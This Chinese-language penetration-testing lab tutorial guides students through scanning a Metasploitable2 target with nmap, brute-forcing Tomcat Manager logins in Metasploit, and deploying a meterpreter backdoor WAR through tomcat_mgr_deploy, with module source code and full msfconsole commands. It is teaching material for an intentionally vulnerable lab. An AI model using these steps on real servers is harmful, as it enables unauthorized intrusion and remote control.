








# 攻击 Tomcat 漏洞

## 一、实验简介

### 1.1 实验介绍

本实验将介绍 Tomcat 漏洞利用的原理以及攻击的流程，让同学们在攻击的过程中，学会掌握 Kali Linux 的使用，以及 Kali 中对攻击框架 MSF 的理解。本实验的环境基于实验楼的 Kali 环境下，所要渗透的目标靶机为 Metasploitable2。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

在学习本实验的过程中，你将学会如何使用 Tomcat 漏洞攻击所要渗透的目标主机，在攻击主机的过程中，老师会逐步讲解 MSF 的攻击流程，让学习的同学，能够更好地掌握 MSF 框架的运用，以及渗透攻击的流程。本实验将涉及到的知识点为：

- Tomcat 的漏洞原理
- Nmap 扫描的使用
- MSF 的攻击流程
- 验证攻击是否成功

### 1.3 实验环境

本实验在实验楼的环境下进行。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数分别如下：

| 主机   | 主机名            | 用户名     | 密码       |
| ------ | ----------------- | ---------- | ---------- |
| 攻击机 | `Kali Linux 2.0`  | `root`     | `toor`     |
| 靶机   | `Metasploitable2` | `msfadmin` | `msfadmin` |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双击 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。

首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


现在两台实验环境都已经启动，我们即将进行对目标主机进行渗透测试。

## 三、 扫描漏目标主机网络漏洞

### 3.1 扫描目标主机网络漏洞

在一般的渗透测试中，我们需要进一步的攻击目标主机，首先要做的事情，就是对目标主机，进行渗透扫描，在扫描的过程中，发现主机所提供的流动，然后根据已有的信息，对是否存在漏洞，做出一个判断。接着对于可能存在的漏洞，进行渗透尝试，最终攻陷目标主机，获取目标主机的漏洞。

在扫描阶段，Nmap 是一款非常好用的扫描工具。在扫描漏洞的过程中，通过分析，尝试可能存在的漏洞。下面对扫描的主机进行渗透扫描，使用命令如下：

```
# 进入到 msfconsole
sudo msfconsole 

# 使用 nmap 扫描渗透主机
nmap -sV -T5 target
```



其中， `-T` 是扫描的速度设置:


| 参数       | 参数所代表的含义                                    |
| ---------- | --------------------------------------------------- |
| `nmap T0 ` | 非常慢的扫描，用于IDS(入侵检测系统)逃避             |
| `nmap T1`  | 缓慢的扫描，介于0和2之间的速度，同样可以躲开某些IDS |
| `nmap T2`  | 降低扫描速度，通常不用                              |
| `nmap T3`  | 默认扫描速度                                        |
| `nmap T4`  | 可能会淹没目标，如果有防火墙很可能会触发            |
| `nmap T5`  | 极速扫描，牺牲了准确度来换取速度                    |


## 四、漏洞攻击

### 4.1 暴利破解 Tomcat 密码

本节使用的攻击模块是 `auxiliary/scanner/http/tomcat_mgr_login`，该模块很简单使用一组特定的用户名及密码去尝试登录 Tomcat Manager，尝试成功后输出结果。

攻击模块代码：

+ [auxiliary/scanner/http/tomcat_mgr_login](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/tomcat_mgr_login.rb)


从扫描结果中可以看到 `8180`端口开放的状态，我们尝试一下是否能够攻击该端口，首先在 MSF 终端中，搜索 tomcat 模块，查找是否有相应的漏洞模块（速度太慢可以跳过搜索步骤）：

```
# 使用 search 搜索相应模块
search tomcat
```



使用 use 命令，选择相应的模块：

```
# 使用命令，选择相应模块
use auxiliary/scanner/http/tomcat_mgr_login

```



接着查看所要设定的必要参数，并用 set 命令，设置索要设置的参数：

```
# 显示所要设置的参数
show options

# 使用 set 设置相应的参数
set RHOSTS 192.168.122.102

# 设置相应的端口
set RPORT 8180
```




接着使用命令，进行攻击，暴力破解，跑出密码：

```
# 对所要渗透的目标主机，进行攻击
exploit
```





由图可以看出，前面符号为绿色的 + 号的，即为可用的成密码。


### 4.2 利用 Tomcat 密码进行渗透

由相应模块得到 Tomcat 密码之后，我们将利用密码，对目标主机进行渗透，使用模块 `exploit/multi/http/tomcat_mgr_deploy`，这个模块中的逻辑是登录 Tomcat Manager，然后执行一段 payload，而这段 payload 的作用就是使用 PUT 操作上传一个 war 包，这个 war 包中包含一个 jsp 文件来提供 meterpreter 后门 Shell。

攻击模块代码：

+ [exploit/multi/http/tomcat_mgr_deploy](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_deploy.rb)


```
# 检查函数
def check
    # 查询服务器 server 信息，赋值给 res
    res = query_serverinfo
    disconnect
    return CheckCode::Unknown if res.nil?
    if (res.code.between?(400, 499))
      vprint_error("Server rejected the credentials")
      return CheckCode::Unknown
    end

    report_tomcat_credential

    # 打印状态信息，输出到屏幕
    vprint_status("Target is #{detect_platform(res.body)} #{detect_arch(res.body)}")
    return CheckCode::Appears
  end

  # 尝试连接目标主机    
  def auto_target
    print_status("Attempting to automatically select a target...")

    res = query_serverinfo()
    return nil if not res

    plat = detect_platform(res.body)
    arch = detect_arch(res.body)

    # 对 arch 参数进行检查。如果没有则返回
    if (not arch or not plat)
      return nil
    end

    # 查看是否已经连接成功
    targets.each { |t|
      if (t['Platform'] == plat) and (t['Arch'] == arch)
        return t
      end
    }

    # 如果没有目标匹配，则返回
    return nil
  end

  # 攻击模块的代码
  def exploit
    mytarget = target
    if (target.name =~ /Automatic/)
      mytarget = auto_target
      if (not mytarget)
        fail_with(Failure::NoTarget, "Unable to automatically select a target")
      end
      print_status("Automatically selected target \"#{mytarget.name}\"")
    else
      print_status("Using manually select target \"#{mytarget.name}\"")
    end

    # 重新生成 payload 如果 auto-magic 发生改变。
    p = exploit_regenerate_payload(mytarget.platform, mytarget.arch)

    # Generate the WAR containing the EXE containing the payload
    jsp_name = rand_text_alphanumeric(4+rand(32-4))
    app_base = rand_text_alphanumeric(4+rand(32-4))

    # 生成的 war 包含 payload
    war = p.encoded_war({
        :app_name => app_base,
        :jsp_name => jsp_name,
        :arch => mytarget.arch,
        :platform => mytarget.platform
      }).to_s

    query_str = "?path=/" + app_base

    #
    # UPLOAD
    #
    path_tmp = normalize_uri(datastore['PATH'], "deploy") + query_str
    print_status("Uploading #{war.length} bytes as #{app_base}.war ...")
    res = send_request_cgi({
      'uri'          => path_tmp,
      'method'       => 'PUT',
      'ctype'        => 'application/octet-stream',
      'data'         => war,
    }, 20)
    
    # 判断 res 是否为空，为空则报错
    if (! res)
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [No Response]")
    end
    
    # 根据 res.code 状态进行选择
    if (res.code < 200 or res.code >= 300)
      case res.code
      when 401
        print_warning("Warning: The web site asked for authentication: #{res.headers['WWW-Authenticate'] || res.headers['Authentication']}")
      end
      
      # 如果错误，则报出 upload 错误
      fail_with(Failure::Unknown, "Upload failed on #{path_tmp} [#{res.code} #{res.message}]")
    end
```

继续在 msfconsole 中执行下列的命令：

```
# 回到主菜单
back

# 使用相应模块
search tomcat

```


接着选择相应的攻击模块，使用命令如下：

```
# 使用已经获得的密码进行渗透
use exploit/multi/http/tomcat_mgr_deploy
```


再由 show 命令查看相应所需填写参数，并设置，这里告诉大家一个清屏的小技巧 `ctrl` + `l`，即为清屏： 

```
# 查看参数
show options

# 设置目标主机地址和所要攻击的端口
set rhost 192.168.122.102

# 设置端口信息
set rport 8180

# 设置 httpusername 账户名
set httpusername tomcat

# 设置 httppassword 密码
set httppassword tomcat
```




接着进行攻击，这个地方，`大概需要等一分钟左右`：

```
# 输入攻击命令
exploit

```




好了，已经渗透入了对方的目标主机，下面我们将进行验证渗透是否成功


### 4.3 进行渗透成功验证

在成功后的命令行终端中，输入命令：

```
# 查看当前主机的系统信息
sysinfo

```

不要输入 `whoami` ，否则会报错，如图所示，显示的操作系统信息：


## 五、总结

### 5.1 总结

本实验主要讲述了 Tomcat 漏洞的使用，以及攻击 Tomcat 漏洞的过程，一般在渗透测试前，我们所需要做的，就是对所要渗透的目标主机，进行信息收集，而在信息收集的过程中，我们才能够更好的发现漏洞，攻陷对方的目标主机。学完本课程，你应该掌握了如下的知识点：

- Tomcat 的漏洞原理
- Nmap 扫描的使用
- MSF 的攻击流程
- 验证攻击是否成功

## 六、推荐阅读

### 6.1 推荐阅读

学习的过程中，一些理论基础的知识，也是非常重要的，而对理论基础的加深理解，可以增加对渗透成功的几率。以下推荐的阅读资料，希望有能力的同学，可以自行阅读：

> https://www.exploit-db.com/exploits/18619/

Tomcat 远程攻击的视频(选看，需要翻墙上网)：

> https://www.youtube.com/watch?v=3B5pg7GwbZk

## 七、课后作业

在学习的同时，我们应该增加一些必要的课后作业，用以巩固所学习的知识。所以在课后作业中，你应该完成如下作业：

- 亲自实现一遍 Kali 攻击 Tomcat 漏洞的步骤
- 理解 Tomcat 漏洞的原理
- 掌握 MSF 攻击 Tomcat 漏洞的流程
- 查找看是否还有其他的 Tomcat 的漏洞可以利用？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。